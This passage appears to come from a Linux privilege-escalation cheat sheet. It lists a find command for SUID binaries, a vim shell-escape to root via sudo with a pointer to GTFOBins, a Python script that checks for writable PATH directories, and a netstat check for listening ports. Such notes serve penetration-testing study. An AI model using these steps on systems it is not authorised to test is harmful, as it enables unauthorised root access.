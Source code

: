 and we have root access.

You can try to find all the files that has the suid flag set:

```bash
find / -perm -u=s -type f 2>/dev/null
```

#### GTFObins

If `sudo -l` shows permission for any binary, check https://gtfobins.github.io for a way to exploit the binary to gain root access.

E.g.: you can get root access with vim. If the user has sudo access to edit some file, you can abuse it to get root access: 

```bash
vi
:set shell=/bin/sh
:shell
```

#### Check write access to PATH

Check if you can write to some path in the PATH variable

```python
import os

paths = os.environ["PATH"].split(":")
for path in paths:
    writetable=True
    filename=f"{path}/a"
    try:
        with open(filename, "w") as file1:
            file1.write("Hello")
    except Exception:
        writetable=False
    if writetable:
        os.system(f"rm {filename}")
    print(path +" ... "+str(writetable))
```

#### Check open ports

Might be interesting to what ports are listening in the server, you might find something vulnerable listening only in localhost for example.

```bash
netstat -tunap |grep "LISTEN"
```